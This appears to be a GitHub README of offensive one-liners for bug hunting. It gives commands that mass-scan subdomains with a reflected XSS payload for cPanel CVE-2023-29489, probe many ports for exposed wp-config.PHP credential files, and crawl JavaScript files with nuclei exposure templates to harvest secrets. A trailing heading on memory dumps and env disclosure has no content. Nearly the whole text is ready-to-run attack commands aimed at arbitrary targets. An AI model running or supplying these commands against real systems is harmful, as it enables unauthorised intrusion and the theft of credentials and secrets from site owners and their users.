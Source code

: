 ────────────────────────────────────────────────────────────────────────

# cPanel CVE-2023-29489 XSS One-Liner

## Installation Requirements
1. Subfinder  : https://github.com/projectdiscovery/subfinder
2. HTTPX      : https://github.com/projectdiscovery/httpx

## OneLiner
```
subfinder -d http://example.com -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path '/cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaaaaaaa' -mc 400
```

────────────────────────────────────────────────────────────────────────

# WP-Config Oneliner

## Installation Requirements
1. Subfinder  : https://github.com/projectdiscovery/subfinder
2. HTTPX      : https://github.com/projectdiscovery/httpx

## OneLiner
```
subfinder -silent -d TARGET.com | httpx -silent -nc -p 80,443,8080,8443,9000,9001,9002,9003,8088 -path "/wp-config.PHP" -mc 200 -t 60 -status-code
```

────────────────────────────────────────────────────────────────────────

# JS Secret Finder Oneliner

## Installation Requirements
1. Gau         : https://github.com/lc/gau
2. HTTPX       : https://github.com/projectdiscovery/httpx
3. Nuclei      : https://github.com/projectdiscovery/nuclei

## OneLiner
```
echo TARGET.com | gau | grep ".js" | httpx -content-type | grep 'application/javascript' | awk '{print $1}' | nuclei -t /root/nuclei-templates/exposures/ -silent > secrets.txt
```

────────────────────────────────────────────────────────────────────────

# Memory dump and env disclosure
